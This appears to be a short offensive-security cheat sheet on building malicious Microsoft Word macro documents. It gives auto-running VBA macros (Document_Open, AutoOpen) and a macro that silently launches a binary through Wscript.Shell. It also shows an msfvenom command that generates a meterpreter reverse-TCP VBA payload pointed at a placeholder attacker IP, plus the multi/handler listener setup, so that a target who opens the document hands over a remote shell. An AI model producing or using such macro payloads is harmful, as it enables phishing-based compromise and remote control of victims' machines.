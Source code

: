 # Visual Basic for Application (VBA)

Open Visual Basic Editor in MSWord by selecting view → macros Name the macro and click create.

For another message box (testing):

    Sub MACRONAME()
      MsgBox ("Message in a box")
    End Sub

Run the macro with F5.

To execute it automatically:

    Sub Document_Open()
      MACRONAME
    End Sub
    
    Sub AutoOpen()
      MACRONAME
    End Sub
    
    Sub MACRONAME()
      MsgBox ("Message in a box")
    End Sub

Save the document in docm or doc.

## Execute a bin

    Sub ExecBin()
            Dim payload As String
            payload = "calc.exe"
            CreateObject("Wscript.Shell").Run payload,0
    End Sub

## Use msfvenom for VBA

    msfvenom -p windows/meterpreter/reverse_tcp LHOST=ATTACKING-MACHINE-IP LPORT=443 -f vba

Copy the output in the file and set the listener with msfconsole 

    use exploit/multi/handler 

Set LHOS, LPORT and payload to `windows/meterpreter/reverse_tcp`.

When the doc is open in the target machine we get a meterpreter shell.
